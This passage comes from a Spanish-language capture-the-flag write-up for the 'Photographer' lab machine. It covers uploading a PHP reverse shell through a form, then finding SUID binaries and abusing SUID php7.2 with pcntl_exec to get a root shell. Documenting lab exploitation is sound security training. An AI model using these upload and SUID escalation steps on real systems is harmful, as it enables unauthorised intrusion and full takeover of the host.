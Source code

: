 ```bash
all
-----------------------------31344929814676734271882685817
Content-Disposition: form-data; name="max_download"

none
-----------------------------31344929814676734271882685817
Content-Disposition: form-data; name="file"; filename="test.jpg"
Content-Type: image/jpeg

<tu scripts aqui>

-----------------------------31344929814676734271882685817--

```

Utilizare la reverse shell de  pentestmonkey **https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php**. Ahora solamente ingresamos a la pagina inicial de la web y se ejecutaria la reverse shell.


## Escalación de privilegios.

Después de haber obtenido acceso a la máquina, ejecutamos una herramienta denominada 'find' con el propósito de identificar los archivos que tienen el bit SUID configurado, lo que nos permitirá identificar potenciales puntos de elevación de privilegios en el sistema.

```bash

www-data@photographer:/$ find / -perm -4000 2>/dev/null | xargs ls -la
-rwsr-xr-x 1 root root         30800 Jul 12  2016 /bin/fusermount
-rwsr-xr-x 1 root root         40152 May 16  2018 /bin/mount
-rwsr-xr-x 1 root root         44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root         44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root         40128 May 16  2017 /bin/su
-rwsr-xr-x 1 root root         27608 May 16  2018 /bin/umount
-rwsr-xr-x 1 root root         49584 May 16  2017 /usr/bin/chfn
-rwsr-xr-x 1 root root         40432 May 16  2017 /usr/bin/chsh
-rwsr-xr-x 1 root root         75304 May 16  2017 /usr/bin/gpasswd
-rwsr-xr-x 1 root root         39904 May 16  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root         54256 May 16  2017 /usr/bin/passwd
-rwsr-xr-x 1 root root       4883680 Jul  9  2020 /usr/bin/php7.2
-rwsr-xr-x 1 root root        136808 Jan 20  2021 /usr/bin/sudo
-rwsr-xr-- 1 root messagebus   42992 Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root         10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root        428240 Mar  4  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root        110792 Feb  7  2021 /usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root root         18664 Mar 18  2017 /usr/lib/x86_64-linux-gnu/oxide-qt/chrome-sandbox
-rwsr-sr-x 1 root root         10584 Apr  8  2021 /usr/lib/xorg/Xorg.wrap
-rwsr-xr-- 1 root dip         394984 Jul 23  2020 /usr/sbin/pppd
```
### Explotación
Observamos que existe un ejecutable en la ubicación /usr/bin/php7.2 y que este es vulnerable a la ejecución de comandos arbitrarios. En consecuencia, procedemos a realizar las siguientes acciones:

```bash
www-data@photographer:/$ 
www-data@photographer:/$ CMD="/bin/sh"
www-data@photographer:/$ /usr/bin/php7.2 -r "pcntl_exec('/bin/sh', ['-p']);"
# whoami
root
```


